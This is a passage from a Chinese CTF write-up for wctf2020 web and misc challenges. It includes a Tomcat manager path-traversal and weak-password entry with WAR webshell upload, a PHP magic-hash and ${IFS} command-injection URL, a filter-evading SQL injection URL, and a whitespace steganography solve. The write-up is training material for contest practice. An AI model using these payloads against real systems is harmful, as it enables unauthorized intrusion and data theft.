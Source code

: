 目录穿越到 manager 得输入密码验证，这里是弱密码 tomcat/tomcat

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200330221054191.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)

接下来就是上传 war 包拿 webshell，github挑一个就好了，这里用 LandGrey 的。

可以直接用jar cvf yourname.war webshell.jsp命令将webshell.jsp打包成war

选择文件，上传。

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020033022111222.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)

根据报错信息明显路径拼结完是example/manager/html/upload，缺少一个/..;/，加一个再试

返回一个403，这说明/manager/html/upload路径访问到了，但是权限不够，那一般问题就出在cookie或者session没给，www没有目录访问权限身上。按照目前的思路来说，不会出现服务器权限不足的问题，那就只能是cookie没添。利用burpsuit从头开始抓包，在访问/..;/manager/html出现了Set-Cookie(set-Cookie的Path是指此cookie只在Path目录下起作用)，那么我们403的问题就迎刃而解，只需要将/example换成Path参数指定的/manage就行，再把cookie加上就完事了。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200330221129353.png)

修改post，添加cookie（ps: 由于cookie只能用一次，所以还是403的话，再请求一次/..;/manager/html，更换新的cookie就行了 ），上传完毕后可以看到war已安装好了，访问上传的war，注意这里还有一个/..;/的坑，剩下的就是根据自己的马找flag了。

当然直接找flag是找不到的，这道题我改得比较玄学，加了《圣经》新约：《提摩太后书》里的文章。（逃
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200330221143225.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200330221153882.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)


可以看到在Timothy里面，cat 一下，是一段文章，这里知道flag格式，grep一下 wctf2020，就可以看到flag了。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200330221206348.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020033022121450.png)

In the end, train yourself to be godly.
## 朴实无华
intval(字符串)为0 但是intval(字符串+1) 会自动转换成数值
MD5需要用一个0e开头纯数字加密后仍为0e开头纯数字的数
空格用${IFS}代替
```powershell
http://101.200.53.102:23333/fl4g.php?num=0x2022&md5=0e215962017&get_flag=cut${IFS}-b${IFS}1-222${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
## 颜值成绩查询
明显是sql注入，经测试过滤了空格可用/**/代替，过滤了关键字可用大小写替换。剩下没啥了union查询查出flag

```bash
http://101.200.53.102:10114/?stunum=-1/**/uNion/**/seleCt/**/1,flag,value/**/frOm/**/flag--+
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200329125337505.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
>吐槽一下sqlmap,明明设置了脚本还是没跑出来，最后还是手工注入的，经检查注入代码发现注释的--后面的空格也被替换成/**/了，导致注释失效。看来还是得学学写py脚本了。
>补充：官方wp说检查了UA,所以sqlmap根本跑不出来
# MISC
## Space Club
打开文件一片空白，但是如果Ctrl+a全选文本就会发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200328150353926.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
那么flag肯定是0和1搭配然后转换，这里说个技巧，比如这次比赛flag都是wctf2020{},那么我们可以先看看w的二进制是什么，然后往这方面靠。w的二进制是01110111，然而在文本编辑器里不大容易看出来，放到sumlime中发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200328150644194.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
这样很明显的发现每行正好对应01110....